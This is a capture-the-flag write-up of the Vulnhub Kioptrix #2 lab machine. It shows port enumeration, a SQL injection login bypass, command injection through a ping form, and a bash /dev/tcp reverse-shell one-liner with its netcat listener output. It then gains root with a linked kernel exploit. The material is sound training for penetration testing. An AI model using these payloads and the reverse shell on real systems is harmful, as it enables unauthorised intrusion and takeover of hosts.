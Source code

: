```yaml
---
layout: single_c
title:  "Vulnhub - Kioptrix #2 Writeup"
date:   2020-01-29 10:43:16 +0530
categories: Vulnhub
tags: OSCP
classes: wide
---
```

### [Vulnhub - Kioptrix #2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Enumeration

#### Nmap
```bash
Nmap scan report for 192.168.71.129
Host is up, received arp-response (0.0056s latency).
Scanned at 2020-01-19 12:22:25 IST for 119s
Not shown: 994 closed ports
Reason: 994 resets
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 64 OpenSSH 3.9p1 (protocol 1.99)
| ssh-hostkey: 
|   1024 8f:3e:8b:1e:58:63:fe:cf:27:a3:18:09:3b:52:cf:72 (RSA1)
|   1024 34:6b:45:3d:ba:ce:ca:b2:53:55:ef:1e:43:70:38:36 (DSA)
|   1024 68:4d:8c:bb:b6:5a:bd:79:71:b8:71:47:ea:00:42:61 (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAIEA4j5XFFw9Km2yphjpu1gzDBglGSpMxtR8zOvpH9gUbOMXXbCQeXgOK3rs4cs/  
j75G54jALm99Ky7tgToNaEuxmQmwnpYk9bntoDu9SkiT/hPZdOwq40yrfWIHzlUNWTpY3okTdf/YNUAdl4NOBOYbf0x/dsAdHHqSWnvZmruFA6M=
|_sshv1: Server supports SSHv1
80/tcp   open  http       syn-ack ttl 64 Apache httpd 2.0.52 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
111/tcp  open  rpcbind    syn-ack ttl 64 2 (RPC #100000)
443/tcp  open  ssl/https? syn-ack ttl 64
|_ssl-date: 2020-01-19T04:44:13+00:00; -2h09m12s from scanner time.
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|_    SSL2_DES_64_CBC_WITH_MD5
631/tcp  open  ipp        syn-ack ttl 64 CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.1
|_http-title: 403 Forbidden
3306/tcp open  mysql      syn-ack ttl 64 MySQL (unauthorized)
MAC Address: 00:0C:29:48:8C:63 (VMware)

Host script results:
|_clock-skew: -2h09m12s
```

That's a lot of attack surface to cover. Let's start with the web application on port 80.

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/login.png){: .align-center}
Looks like a login page for administrators. We can try `sql` injection or `sql` login bypass.  
We can bypass the login using `' or 1#` or `' or 1-- `

#### MySQL Login code (an be found after getting a shell)
```sql
$query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
```
We can see that we can escape from the query using a `'` and then return a true value using `or 1` and then comment out the rest using `#` or `-- `

## Low Privilege Shell
Login has been successfully bypassed and we are presented with another page, asking for an ip address to ping. 
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhubimg/kioptrix2/revshell.png){: .align-center}
We can inject any command here by appending a `;` followed by our code. Unfortunately there was no `netcat` installed. But we can get reverse shell using `bash`

```bash
bash -i >& /dev/tcp/192.168.71.128/4444 0>&1
```
Don't forget to start a `nc` listener.

```bash
root@kali:~/Desktop/vulnhub/kioptix2# nc -lvp 4444
listening on [any] 4444 ...
192.168.71.129: inverse host lookup failed: Unknown host
connect to [192.168.71.128] from (UNKNOWN) [192.168.71.129] 49917
bash: no job control in this shell
bash-3.00$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
And we have a shell.

## Low Priv Shell Enumeration

So I spent a good amount of time snooping around, looking for privilege escalation methods but to no avail.
I finally started looking for kernel exploits.
Usually it’s always a good practice to avoid kernel exploitation as this opens up many dangers such as crashing or corrupting the machine. So always make sure that you have exhausted all your options before trying out kernel exploits.

#### Linux Exploit Suggester
We can use [Linux_Exploit_Suggester.pl](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) to find possible kernel exploits.

```bash
bash-3.00$ perl Linux_Exploit_Suggester.pl

Kernel local: 2.6.9

Searching among 65 exploits...

Possible Exploits:
[+] american-sign-language
   CVE-2010-4347
   Source: http://www.securityfocus.com/bid/45408/
[+] exp.sh
[+] half_nelson
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/6851
[+] half_nelson1
   Alt: econet    CVE-2010-3848
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson2
   Alt: econet    CVE-2010-3850
   Source: http://www.exploit-db.com/exploits/17787/
[+] half_nelson3
   Alt: econet    CVE-2010-4073
   Source: http://www.exploit-db.com/exploits/17787/
[+] krad
[+] krad3
   Source: http://exploit-db.com/exploits/1397
[+] pktcdvd
   CVE-2010-3437
   Source: http://www.exploit-db.com/exploits/15150/
[+] py2
[+] sock_sendpage
   Alt: wunderbar_emporium    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9435
[+] sock_sendpage2
   Alt: proto_ops    CVE-2009-2692
   Source: http://www.exploit-db.com/exploits/9436
[+] udp_sendmsg_32bit
   CVE-2009-2698
   Source: http://downloads.securityfocus.com/vulnerabilities/exploits/36108.c
[+] video4linux
   CVE-2010-3081
   Source: http://www.exploit-db.com/exploits/15024/
```

I had to filter through these exploits and finally found [sock_sendpage()](https://www.exploit-db.com/exploits/9545)

## Root Shell
Transfer the code to the machine(I used `python` http server and `wget`), compile it and run.

```bash
bash-3.00$ gcc -Wall sock.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00# id
uid=0(root) gid=0(root) groups=48(apache)
```
And we are root!